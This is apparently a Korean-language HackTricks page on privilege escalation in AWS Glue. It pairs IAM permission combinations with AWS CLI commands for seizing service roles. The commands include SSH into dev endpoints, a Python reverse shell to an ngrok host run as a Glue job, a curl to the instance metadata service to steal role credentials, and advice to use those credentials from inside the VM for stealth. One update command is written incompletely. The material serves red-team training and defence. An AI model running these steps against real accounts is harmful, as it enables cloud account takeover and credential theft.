 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

이 권한을 가진 사용자는 **새로운 AWS Glue 개발 엔드포인트를 설정할 수 있으며**, **특정 권한을 가진 Glue에서 가정할 수 있는 기존 서비스 역할을 이 엔드포인트에 할당할 수 있습니다.**

설정 후, **공격자는 엔드포인트의 인스턴스에 SSH로 접속하여**, 할당된 역할의 IAM 자격 증명을 탈취할 수 있습니다:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
은폐 목적을 위해 Glue 가상 머신 내부의 IAM 자격 증명을 사용하는 것이 권장됩니다.

**잠재적 영향:** 지정된 Glue 서비스 역할로의 권한 상승.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

이 권한이 있는 사용자는 **기존 Glue 개발** 엔드포인트의 SSH 키를 **변경할 수 있어** SSH 접근을 가능하게 합니다. 이를 통해 공격자는 엔드포인트에 연결된 역할의 권한으로 명령을 실행할 수 있습니다:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**잠재적 영향:** 사용된 Glue 서비스 역할에 대한 권한 상승.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`**과 **`glue:CreateJob` 또는 `glue:UpdateJob`** 중 하나, 그리고 **`glue:StartJobRun` 또는 `glue:CreateTrigger`** 중 하나를 결합한 사용자는 **AWS Glue 작업**을 생성하거나 업데이트할 수 있으며, 임의의 **Glue 서비스 계정**을 연결하고 작업 실행을 시작할 수 있습니다. 작업의 기능에는 임의의 Python 코드를 실행하는 것이 포함되며, 이를 이용해 리버스 셸을 설정할 수 있습니다. 이 리버스 셸은 Glue 작업에 연결된 역할의 **IAM 자격 증명**을 유출하는 데 사용될 수 있으며, 이는 해당 역할의 권한에 따라 잠재적인 무단 접근 또는 행동으로 이어질 수 있습니다.
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**잠재적 영향:** 지정된 glue 서비스 역할로의 권한 상승.

### `glue:UpdateJob`

업데이트 권한만으로도 공격자는 이미 연결된 역할의 IAM 자격 증명을 훔칠 수 있습니다.

**잠재적 영향:** 연결된 glue 서비스 역할로의 권한 상승.

## 참조

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
